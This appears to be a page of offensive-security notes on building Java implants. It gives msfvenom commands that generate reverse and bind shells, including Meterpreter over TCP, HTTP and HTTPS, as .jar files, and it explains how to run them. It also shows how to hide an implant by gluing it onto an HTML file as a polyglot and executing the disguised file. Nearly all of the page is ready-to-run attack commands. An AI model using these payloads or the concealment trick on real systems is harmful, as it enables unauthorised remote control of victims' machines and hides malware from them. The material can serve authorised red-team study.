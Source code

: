 # Java

## 01 - Java Implants

### 1.1 - Reverse Shells

#### 1.1.1 - TCP

Staged reverse shell.

```
$ msfvenom -p java/shell/reverse_tcp lhost=<IP> lport=<PORT> -f raw -o implant.jar
```

Stageless reverse shell.

```
$ msfvenom -p java/shell_reverse_tcp lhost=<IP> lport=<PORT> -f raw -o implant.jar
```

Staged `meterpreter` reverse shell.

```
$ msfvenom -p java/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f raw -o implant.jar
```

#### 1.1.2 - HTTP

Staged reverse shell.

```
$ msfvenom -p java/meterpreter/reverse_http lhost=<IP> lport=<PORT> -f raw -o implant.jar
```

#### 1.1.3 - HTTP via TLS

Staged reverse shell.

```
$ msfvenom -p java/meterpreter/reverse_https handlersslcert=[/path/to/file.pem] sslversion=[Auto | TLS | SSL23 | SSL3 | TLS1 | TLS1.1 | TLS1.2] lhost=<IP> lport=<PORT> -f raw -o implant.jar
```

### 1.2 - Bind Shells

Staged bind shell.

```
$ msfvenom -p java/shell/bind_tcp lport=<PORT> [RHOST=<target_IP>] -f raw -o implant.jar
```

Staged `meterpreter` reverse shell.

```
$ msfvenom -p java/meterpreter/bind_tcp lport=<PORT> [rhost=<target_IP>] -f raw -o implant.jar
```

## 02 - Execute Implant

> [!TIP]
> On windows, you can combine with a enumeration function to check one of the [[Compilers|compilers]] exist in order to execute the implant especially when the target is windows.

```
> java -jar implant.jar
```

## 03 - Polyglot

> [!TIP]
> Feel free to experiment around binding any binary file format with `.jar` implant.

Bind the binary files together.

```
C:\> copy /y /b filename.html+implant.jar hidden_implant.html
```

It's also possible to do this in `wine`.

```
$ wine cmd.exe /y /c copy /b filename.html+implant.jar hidden_implant.html
```

Then execute it

```
C:\> java.exe -jar hidden_implant.html
```

---
## References

### Source Repositories

- [deepinstinct: JAR-Polyglot-POC](https://github.com/deepinstinct/JAR-Polyglot-POC)